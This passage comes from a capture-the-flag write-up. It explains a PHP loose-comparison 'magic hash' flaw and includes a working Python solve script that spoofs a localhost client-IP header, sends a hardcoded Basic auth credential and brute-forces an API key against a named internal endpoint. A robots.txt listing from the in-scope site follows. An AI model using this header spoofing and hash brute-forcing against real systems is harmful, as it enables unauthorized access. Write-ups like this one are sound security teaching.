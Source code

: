 And with that, we have the flag! Also, notice how the `Error Code` is printed despite us getting the flag suggesting the flaw that the developers made - PHP loose comparison and not immediately returning the invalid response. 


*Extra* - Below, I have also attached the final script I used to automate the win!
``` script.py
import hashlib
import requests
import re

headers = {
    "X-Client-IP" : "127.0.0.1",
    "Authorization" : "Basic dGhoMzgyNjcxODQ5OnNVcDNSUGE1NXcwIVJEXzk="
}

def findVulnerableHash():
    tryVal = 0
    while 1:
        m = hashlib.md5()
        concat = "DDL_SuP3RSecret" + str(tryVal)
        m.update(concat.encode())
        # hmac is only offset 0 to 3 [0:4]
        check = m.hexdigest()[0:4]
        print(tryVal, check)
        if re.match(r'0+[eE]\d+$', check):
            print("The valid value for api-key is", tryVal)
            return tryVal
        tryVal += 1

def sendRequest(api_key):
    headers["X-Api-Key"] = str(api_key)
    target = "https://draftdownlabs.com/internal/thh38267184code.php"
    r = requests.get(target, headers=headers)
    print("Response...")
    print(r.text)

api_key = findVulnerableHash()
sendRequest(api_key)
```

### Wandering into the unknown (Skip this if not interested)

While attempting the challenge, I thought that perhaps for the email and password, I had to find an internal endpoint. But not knowing where to look, I checked the draftdownlabs' robots.txt since it was in scope.
```
User-agent: *
Disallow: /wp-admin
Disallow: /wp-admin/admin-ajax.php
Disallow: /wp-includes
Disallow: /wp-content/plugins
Disallow: /wp-content/cache
Disallow: /wp-content/themes
Disallow: /trackback
Disallow: /feed
Disallow: /comments
Disallow: /category/*/*
Disallow: */trackback
Disallow: */feed
Disallow: */comments
Disallow: /*?*
Disallow: /*?
Disallow: /tags/
```